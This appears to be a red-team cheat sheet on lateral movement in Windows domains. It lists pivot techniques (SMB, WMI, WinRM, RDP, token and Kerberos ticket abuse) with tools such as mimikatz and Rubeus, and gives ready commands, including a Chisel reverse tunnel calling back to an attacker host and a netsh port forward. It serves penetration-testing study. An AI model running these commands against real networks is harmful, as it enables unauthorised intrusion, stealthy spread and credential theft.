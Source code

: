 _Goal: Move laterally across systems to access additional machines, credentials, or data._

---

### **Objectives**

- Use current access to move laterally to other systems
    
- Identify routes to high-value systems (e.g., file servers, domain controllers)
    
- Maintain stealth and minimize detection during movement
    

---

### **Mermaid Diagram**

```mermaid
graph TD
    A[Access on Initial Host] --> B[Identify Reachable Hosts]
    B --> C[Find Valid Creds or Tokens]
    C --> D[Use SMB, WMI, WinRM, RDP for Pivot]
    D --> E[Execute Commands or Deploy Tools]
    E --> F[Enumerate New Machine for Privilege or DA Path]
```

  

---

### **Techniques and Tools**

|**Technique**|**Tool/Command**|**Notes**|
|---|---|---|
|Host Discovery|fping, nmap, PowerShell Test-Connection|Identify live hosts on subnets|
|Session Detection|quser, Get-NetSession, Invoke-UserHunter (PowerView)|Look for where users are logged in|
|SMB Pivot|wmiexec.py, psexec.py, crackmapexec|Leverage creds to execute commands over SMB|
|WMI Pivot|wmiexec.py, Invoke-WmiMethod|Remote command execution via WMI|
|WinRM Pivot|evil-winrm, Enter-PSSession|Preferred for stealthy and PowerShell-based access|
|RDP Pivot|xfreerdp, mstsc|Full interactive access if RDP is enabled|
|Reverse Proxy (Socks)|Chisel, SSH -D, proxychains, meterpreter socks4a|Create pivot tunnels for scanning or shell access|
|Port Proxy|netsh interface portproxy|Forward ports via compromised system|
|Token Impersonation|mimikatz, Incognito, Rubeus|Use available tokens from other logged-in users|
|TGT/TGS Delegation Abuse|Rubeus, kerberos::ptt, unconstrained delegation|Move using ticket-based attacks|

  

---

### **Example: Pivot via Evil-WinRM**

```
evil-winrm -i <IP> -u <USER> -p <PASS>
```

  

---

### **Example: Chisel SOCKS Reverse Proxy**

```
# On attacker (server)
./chisel server -p 8080 --reverse

# On target (client)
chisel.exe client <attacker_ip>:8080 R:socks
```

Then configure /etc/proxychains.conf with:

```
socks5 127.0.0.1 1080
```

  

---

### **Example: Port Forwarding with netsh**

```
netsh interface portproxy add v4tov4 listenport=1515 listenaddress=10.10.10.10 connectport=3389 connectaddress=172.16.6.50
```

  

---

### **Pro Tips**

- Use proxychains or Chisel to make BloodHound, nmap, and xfreerdp work through internal pivots
    
- Combine Find-LocalAdminAccess + valid creds to chain pivots
    
- After each new box, re-check for **priv escalation** and **credential dumping opportunities**
    
